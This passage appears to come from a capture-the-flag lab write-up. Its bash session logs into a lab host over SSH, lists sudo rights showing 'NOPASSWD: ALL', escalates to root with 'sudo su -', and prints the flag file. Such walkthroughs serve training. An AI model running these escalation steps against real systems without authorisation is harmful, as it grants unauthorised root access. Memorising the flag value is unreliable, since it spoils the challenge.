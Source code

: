 ![](assets/img/attachments/QQ_1754578308551.png)  

```bash
[root@localhost ~]# ssh idss@192.168.66.128
The authenticity of host '192.168.66.128 (192.168.66.128)' can't be established.
ECDSA key fingerprint is SHA256:A89jmLwKxeps5/7NNwHpI1HwHVH1R+S9kV0DP2c1K/U.
ECDSA key fingerprint is MD5:36:36:5d:87:bc:b8:e3:57:9f:57:43:67:a0:bf:c4:92.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.66.128' (ECDSA) to the list of known hosts.
idss@192.168.66.128's password: 
Last login: Wed Apr 30 08:24:18 2025
[idss@localhost ~]$ id
uid=1000(idss) gid=1000(idss) 组=1000(idss),4(adm),190(systemd-journal)
[idss@localhost ~]$ sudo -l
匹配 %2$s 上 %1$s 的默认条目：
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

用户 idss 可以在 localhost 上运行以下命令：
    (ALL) NOPASSWD: ALL
[idss@localhost ~]$ sudo su -
上一次登录：四 5月  8 15:59:36 UTC 2025从 10.88.88.4pts/0 上
最后一次失败的登录：四 8月  7 14:09:40 UTC 2025从 192.168.66.31ssh:notty 上
最有一次成功登录后有 45 次失败的登录尝试。
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@localhost ~]# cat /root/f*
flag{XJFyvxcALo9w3SrmBn5l6gqZNskbO7Dp}[root@localhost ~]# 
```